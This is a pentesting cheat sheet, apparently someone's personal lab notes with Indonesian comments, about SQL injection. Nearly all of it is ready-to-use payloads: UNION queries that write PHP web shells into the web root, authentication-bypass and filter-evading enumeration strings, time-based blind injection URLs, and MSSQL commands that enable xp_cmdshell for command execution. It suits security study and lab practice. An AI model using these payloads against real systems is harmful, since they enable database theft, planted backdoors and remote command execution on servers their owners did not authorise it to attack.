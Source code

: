 5. ## SQL Injection (SELALU PEKA SAMA BLIND SQLI)

1. SQL Injection File Write, MSSQL Code execute, etc.
https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
```php
select "<?php echo shell_exec($_GET['c']);?>" into OUTFILE '/var/www/html/shell.php';

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,<?php echo system(“uname -a”);?>’-- -

' UNION ALL SELECT NULL,NULL,"<?php echo "hello world"; ?> INTO OUTFLIE "/var/www/vhosts/example.com/foobar.php"

' UNION SELECT '<?php system($_GET["cmd"]);?>', null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

(KALO RETURN ERROR, TETEP CEK FILENYA, BISA JADI TETEP TERWRITE)
```
```cmd
offsec' OR 1=1 -- //

' or 1=1 in (select @@version) -- //

' or 1=1 in (SELECT * FROM users) -- //

' or 1=1 in (SELECT password FROM users) -- //

Kalo di search feature (biasanya dia pake like, makannya kita pake % aja)

%' UNION SELECT database(), user(), @@version, null, null -- //

UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata

UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...

UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...

UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...

' union select 1,2,group_concat(table_name, 0x7C, column_name) from information_schema.columns -- - //
```
```cmd blind
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //

http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## MSSQL Code Execute xp_cmdshell() >> BISA PASS THE HASH JUGA.
```cmd
enum_db
use ms_db;=
enum_users;

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```